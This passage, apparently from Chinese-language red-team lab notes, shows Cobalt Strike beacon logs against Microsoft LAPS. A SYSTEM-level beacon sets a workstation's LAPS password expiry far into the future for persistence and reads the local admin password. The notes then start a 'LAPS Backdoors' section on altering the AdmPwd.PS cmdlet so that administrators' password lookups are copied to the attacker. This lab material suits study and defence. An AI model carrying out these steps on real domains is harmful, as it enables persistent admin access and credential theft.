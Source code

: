 ms-mcs-admpwdexpirationtime
---------------------------
         232609935231523081


<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj></Objs>
beacon> run hostname
[*] Tasked beacon to run: hostname
[+] host called home, sent: 26 bytes
[+] received output:
wkstn-2

beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are NT AUTHORITY\SYSTEM (admin)
beacon> powershell Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
[*] Tasked beacon to run: Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
[+] host called home, sent: 521 bytes
[+] received output:
#< CLIXML
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj></Objs>
beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl
[*] Tasked beacon to run: Get-AdmPwdPassword -ComputerName wkstn-2 | fl
[+] host called home, sent: 393 bytes
[+] received output:
#< CLIXML


ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : 
ExpirationTimestamp : 2/11/2338 11:05:23 AM


```



![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661474217831.png)


# LAPS Backdoors

LAPS后门，主要通过修改PowerShell cmdlet里的方法，当管理员进行操作时，我们会得到一个密码的副本

查看PowerShell cmdlet所在文件夹

```
beacon> cd C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS
[*] cd C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS
[+] host called home, sent: 128 bytes
beacon> ls
[*] Tasked beacon to list files in .
[+] host called home, sent: 79 bytes
[*] Listing: C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\
